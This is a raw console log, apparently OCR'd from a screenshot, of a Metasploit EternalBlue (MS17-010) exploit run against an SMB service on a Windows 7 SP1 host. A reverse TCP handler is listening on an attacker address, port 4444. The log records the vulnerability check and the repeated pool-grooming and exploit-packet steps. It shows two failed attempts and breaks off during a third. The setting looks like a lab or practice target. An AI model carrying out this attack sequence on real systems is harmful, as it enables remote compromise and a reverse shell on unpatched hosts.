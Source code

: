 [*] Started reverse TCP handler on 192.168.251.131:4444 
[*] 10.10.14.78:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.14.78:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.14.78:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.14.78:445 - The target is vulnerable.
[*] 10.10.14.78:445 - Connecting to target for exploitation.
[+] 10.10.14.78:445 - Connection established for exploitation.
[+] 10.10.14.78:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.14.78:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.14.78:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.14.78:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.14.78:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.14.78:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.14.78:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.14.78:445 - Sending all but last fragment of exploit packet
[*] 10.10.14.78:445 - Starting non-paged pool grooming
[+] 10.10.14.78:445 - Sending SMBv2 buffers
[+] 10.10.14.78:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.14.78:445 - Sending final SMBv2 buffers.
[*] 10.10.14.78:445 - Sending last fragment of exploit packet!
[*] 10.10.14.78:445 - Receiving response from exploit packet
[+] 10.10.14.78:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.14.78:445 - Sending egg to corrupted connection.
[*] 10.10.14.78:445 - Triggering free of corrupted buffer.
[-] 10.10.14.78:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.14.78:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.14.78:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.10.14.78:445 - Connecting to target for exploitation.
[+] 10.10.14.78:445 - Connection established for exploitation.
[+] 10.10.14.78:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.14.78:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.14.78:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.14.78:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.14.78:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.14.78:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.14.78:445 - Trying exploit with 17 Groom Allocations.
[*] 10.10.14.78:445 - Sending all but last fragment of exploit packet
[*] 10.10.14.78:445 - Starting non-paged pool grooming
[+] 10.10.14.78:445 - Sending SMBv2 buffers
[+] 10.10.14.78:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.14.78:445 - Sending final SMBv2 buffers.
[*] 10.10.14.78:445 - Sending last fragment of exploit packet!
[*] 10.10.14.78:445 - Receiving response from exploit packet
[+] 10.10.14.78:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.14.78:445 - Sending egg to corrupted connection.
[*] 10.10.14.78:445 - Triggering free of corrupted buffer.
[-] 10.10.14.78:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.14.78:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.14.78:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.10.14.78:445 - Connecting to target for exploitation.
[+] 10.10.14.78:445 - Connection established for exploitation.
[+] 10.10.14.78:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.14.78:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.14.78:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.14.78:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.14.78:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.14.78:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.14.78:445 - Trying exploit with 22 Groom Allocations.
[*] 10.10.14.78:445 - Sending all but last fragment of exploit packet
[*] 10.10.14.78:445 - Starting non-paged pool grooming
[+] 10.10.14.78:445 - Sending SMBv2 buffers
[+] 10.10.14.78:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.14.78:445 - Sending final SMBv2 buffers.